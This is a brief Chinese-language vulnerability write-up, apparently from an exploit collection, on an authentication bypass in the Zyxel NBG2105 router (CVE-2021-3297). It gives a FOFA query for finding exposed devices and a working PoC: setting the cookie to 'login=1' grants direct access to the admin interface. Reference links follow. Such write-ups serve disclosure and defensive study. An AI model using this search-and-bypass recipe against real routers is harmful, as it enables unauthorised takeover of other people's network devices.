



# Zyxel NBG2105 身份验证绕过（CVE-2021-3297）

**FOFA：**

```
app="ZyXEL-NBG2105"
```

**漏洞代码：**

```
http://target/js/util_gw.js
```



**PoC：**

```
Cookie: login=1;
只需要将cookie中login=0 修改为login=1即可直接进入管理界面。
```







ref：

* https://forum.ywhack.com/thread-115035-1-1.html
* https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass